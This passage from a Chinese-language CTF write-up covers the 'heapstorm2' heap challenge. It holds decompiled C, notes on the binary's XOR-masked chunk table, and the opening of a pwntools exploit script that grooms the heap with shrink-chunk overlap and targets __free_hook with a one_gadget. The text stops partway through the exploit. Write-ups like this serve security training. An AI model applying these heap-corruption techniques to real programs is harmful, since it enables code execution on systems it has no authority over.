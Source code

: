 ```C
  chunk = get_mem_chunk(mmap_mem, mmap_mem[2 * (v4 + 2LL)]);
  outout(chunk, size);
  return puts(byte_180A);
}
```


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>程序比一般的题目稍为繁琐，首先用mmap映射了一块内存作为堆块地址的记录，在首地址开始的0x20空间里放了随机数来异或记录的堆块地址和大小，使用时再次异或得到真实地址，这增加了泄露堆块基址的难度，但问题不大。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先我们使用shrink chunk来制造重叠堆块，并以此得到一个unsorted bin，一个largebin：</font></br>

```python
from pwn import *

context.log_level=1

#p=process('./heapstorm2',env={'LD_PRELOAD':'./libc-2.24.so'})
#elf=ELF('./libc-2.24.so')
#one_gadget=0x3f35a

p=process('./heapstorm2')
elf=ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget=0x4526A

sd=lambda x : p.send(x)
sl=lambda x : p.sendline(x)
rv=lambda x : p.recvuntil(x)
sla=lambda a,x : p.sendlineafter(a,x)
sa=lambda a,x : p.sendafter(a,x)

free_hook=elf.symbols['__free_hook']

def alloc(size,):
    sla('Command: ','1')
    sla('Size: ',str(size))

def update(index,content):
    sla('Command: ','2')
    sla('Index: ',str(index))
    sla('Size: ',str(len(content)))
    sla('Content: ',content)

def dele(index):
    sla('Command: ','3')
    sla('Index: ',str(index))

def view(index):
    sla('Command: ','4')
    sla('Index: ',str(index))


alloc(0x18)     # 0
alloc(0x520)    # 1
alloc(0x18)     # 2

alloc(0x18)     # 3
alloc(0x520)    # 4
alloc(0x18)     # 5
alloc(0x18)     # 6

update(1,'a'*0x4f0+p64(0x500))
dele(1)
update(0,'a'*12)
```
